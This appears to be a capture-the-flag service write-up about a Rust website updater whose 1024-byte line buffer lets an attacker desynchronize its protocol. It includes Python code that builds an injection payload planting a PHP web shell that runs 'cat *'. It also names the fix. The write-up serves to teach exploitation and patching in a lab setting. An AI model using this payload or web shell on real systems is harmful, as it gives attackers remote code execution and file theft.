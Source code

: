 # The Startup Service

The service is an engine for updating the content of dynamic website. The content can be download from any untrusted mirror-like site, but its authencity is checked using Ed25519 digital signature scheme.

The service is written in Rust. The site that updated is a usual PHP site.

There are two main parts in the updater:

1. The client handler that gets a manifest and its signature from the client, creates a task, downloads files and checks its signatures. The manifest is a json-data, that describes files and their hashsums. 
The example of manifest:
```
{
    "links": [
        {"url": "http://mirror/wyjzmw.php", "checksum": "32bfce7a147d2fb0c87ff234c2848a37"},
        {"url": "http://mirror/JhXY.php", "checksum": "d55ec508be338092ab591f3d7e4ab929"}
    ]
}
```

2. Transport handlers that download a file, compute hashsums and send that data to the client handler. Supported transports are HTTP and HTTP/2. The handlers are launched by the client handler as programs, the communication between them is done by using standard I/O streams: stdin and stdout.

## The Protocol Between the Client Handler and the Transport Handler ##

1. The client handler sends an url to download as a line to stdin of transport handler.
2. The transport handler gets the data and sends an about it to the stdout in the following format:
```
Url: http://<url>
Success: [true or false]
Hashsum: <hashsum>
Content-Length: <integer>
<data>
```
3. Go to step 1.

On the program level the updater communicates with the transport handler using the AsyncBufferedReadStream class. It has methods *read_line()* and *read(n)* to get next line and next data chunk. Also it mantains an internal buffer of length 1024 to store the extra data readed from the socket.

# The Vulnerability #

The *read_line()* can never return the data that is bigger than buffer. If the line is longer then 1024 bytes, the first 1024 bytes are returned as single line, but the rest of the data is returned as another line. Moreover, if the several lines are read with a single syscall, the last line can be truncated. That can be used to unsynchronize the protocol and inject false answers to the client handler request that contains arbitrary data with arbitrary checksums.

This allows to make the client hadler save the PHP-file with content provided by attacker, effectively giving an RCE.

# The Exploitation #

It is supposed that the attacker has a manifest and knows the digital signature of some innocent data. Both can be obtained from the checker using a sniffer

To exploit the vulnerability the attacker needs a way to inject long strings to the protocol. It controls the URL host part and data. The one way how it can be done is to provide the hostname into the following format: <host>:<000000><port>, where <000000> is arbitrary number of "0" characters. That port will be interpreted as usual number.

Here is a code to generate the payload, that should be send as an answer on HTTP or HTTP/2 request:

```python
MYIP = "10.60.30.1"
MYPORT = "0" * (921-len(MYIP)) + "4000"

FAKE_PHP = br"""<?php if($_GET["key"]=="KnfSM")system("cat *")?>"""

PAYLOAD = b"""AAAAAA
Url: http://%s:%s/JhXY.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929\n\n\n\n\n\n\n\n\n\n
Content-Length: %d
%s""" % (MYIP.encode(), MYPORT.encode(), len(FAKE_PHP), FAKE_PHP)

ANS = b"""HTTP/1.1 200 OK
Content-Length: %d

%s?>""" % (len(PAYLOAD), PAYLOAD)
```

### How it works? ###

On the first request this answer is passed from the transport handler to the client handler:

```
Url: http://10.60.30.1:000000...04000/somename.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929
Content-Length: 1000
<data>
```

The client client handler interprets it as

```
Url: http://10.60.30.1:000000...04000/somename.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929
Content-Length: 10
00
<data>
```

So the first two zeroes and few first bytes of data are interpreted as an answer on first request. So the further data will be interpreted by client handler as the next request answer. The attacker is injecting fake hashsum and fake data there:

```
Url: http://%s:%s/JhXY.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929
Content-Length: <len>
<?php if($_GET["key"]=="KnfSM")system("cat *")?>
```

The full sploit can be found at [/exploits/startup/startup_sploit.py](../exploits/startup/startup_sploit.py).

**The fix.** To fix the vuln the buffering algorithm should be modified to work with longer strings.

